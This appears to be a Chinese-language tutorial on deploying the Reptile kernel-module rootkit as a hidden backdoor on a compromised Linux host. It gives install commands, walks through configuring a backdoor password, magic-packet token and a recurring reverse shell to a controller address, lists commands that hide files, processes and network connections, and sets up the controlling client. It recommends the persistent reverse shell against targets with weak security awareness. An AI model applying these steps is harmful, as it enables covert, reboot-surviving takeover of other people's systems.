









# Rootkit 后门

rootkit是攻击者向计算机系统中植入的，能够隐藏自身踪迹并保留root权限的恶意程序。rootkit基于攻击者已经拿到root权限之后对系统进行破坏。rootkit会尽可能通过隐藏文件、进程、模块、进程等信息避免被监控程序检测。

这个项目列出了很多好用的rootkit，感兴趣的可以去看看。

这里只演示一下**Reptile**的使用。

Reptile 是种 LKM(Loadable Kernel Modules) rootkit，因此具有很好的隐藏性和强大的功能。

**安装：**

```bash
apt-get install vim gcc make g++ unzip -y
apt-get -y install linux-headers-$(uname -r)

git clone https://github.com/f0rb1dd3n/Reptile.git
./setup.sh install    #全自动化安装,安装后也会全自动删除，要注意需要交互式shell
```



> 安装过程会有如下选项：
>
> Hide name (will be used to hide dirs/files) (default: reptile): 会被隐藏的文件或文件名
>
> Auth token to magic packets (default: hax0r):连接后门时的认证
>
> tokenBackdoor password (default: s3cr3t):后门密码
>
> Tag name that hide file contents (default: reptile):标签名，在该标签中的内容都会被隐藏
>
> Source port of magic packets (default: 666): 源端口默认即可
>
> Would you like to config reverse shell each X time? (y/n) (default: n): 是否每隔一段时间弹 shell ，这个功能很强，隐藏+开机自启动，如果对方防范意识不高，可以使用这个。
>
> Reverse IP : 控制端ip
>
> Reverse Port: 控制端端口
>
> would you like to config reverse shell each x time(default:1800) ：您希望每隔x时间回连一次

安装成功，并且可以删除本地文件夹：


看看rootkit效果：


隐藏目录：

```
名称中包含的所有文件和文件夹都reptile将被隐藏。您可以在安装之前进行配置。
以下命令隐藏/取消隐藏文件、文件夹、进程和内核模块本身：
隐藏：/reptile/reptile_cmd hide
取消隐藏：/reptile/reptile_cmd show
```



隐藏进程：

```
隐藏进程：/reptile/reptile_cmd hide <pid>
取消隐藏进程：/reptile/reptile_cmd show <pid>
```

隐藏TCP/UDP连接：

```
隐藏：/reptile/reptile_cmd conn <IP> hide
取消隐藏：/reptile/reptile_cmd conn <IP> show

注意：默认情况下，TCP 和 UDP 隐藏功能隐藏到 IP 的所有连接
```

**控制端：**

安装：

```bash
#首先安装依赖
apt install libreadline-dev #Debian
yum install readline-devel #RHEL

安装执行 ./setup client
```



进入bin目录，执行**./client**即可启动



这个后门的运作逻辑是**用任意机器（一般都是控制机）的特定端口（配置目标机器的时候666那个srcport参数）给目标 任意端口发送一段数据**。然后目标机器接受到这个数据，再按照配置的里面回连。

控制端根据受控端的配置，进行设置：



设置完之后，执行**run**，等待一会就会收到目标机器的连接，进入控制界面




**目标重启之后仍然可以接收到后门。**

更多使用，参考官方wiki
